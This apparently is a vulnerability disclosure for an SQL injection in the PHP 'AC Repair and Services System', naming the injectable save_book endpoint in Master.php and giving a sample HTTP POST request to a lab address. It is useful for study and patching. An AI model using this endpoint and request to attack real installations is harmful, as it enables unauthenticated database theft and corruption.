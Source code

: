 



AC Repair and Services System using SQL injection vulnerabilities can be exploited by attackers to steal information or corrupt databases without authentication.



Source code address：https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in the /classes/Master.php file, navigate to save_book and look down to first extract($_POST) the parameters in the HTTP POST request into independent variables. Then directly see line 175 down if '$id' is empty, perform **INSERT** operation to insert a new record, if '$id' exists, perform **UPDATE** operation to update the record corresponding to the ID, the existence and SQL statement directly concatenate.

![image-20250313223937409](images/image-20250313223937409.png)

漏洞验证：

```
POST /php-acrss/classes/Master.php?f=save_book HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.80.152/php-acrss/?page=booking
Content-Length: 749
Content-Type: multipart/form-data; boundary=---------------------------327622971312812
Connection: keep-alive

-----------------------------327622971312812
Content-Disposition: form-data; name="id"


-----------------------------327622971312812
Content-Disposition: form-data; name="customer"


-----------------------------327622971312812
Content-Disposition: form-data; name="fullname"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="email"

admin@qq.com
-----------------------------327622971312812
Content-Disposition: form-data; name="contact"

11
-----------------------------327622971312812
Content-Disposition: form-data; name="address"

1
-----------------------------327622971312812
Content-Disposition: form-data; name="services[]"

2
-----------------------------327622971312812--

```

![image-20250313223742223](images/image-20250313223742223.png)



































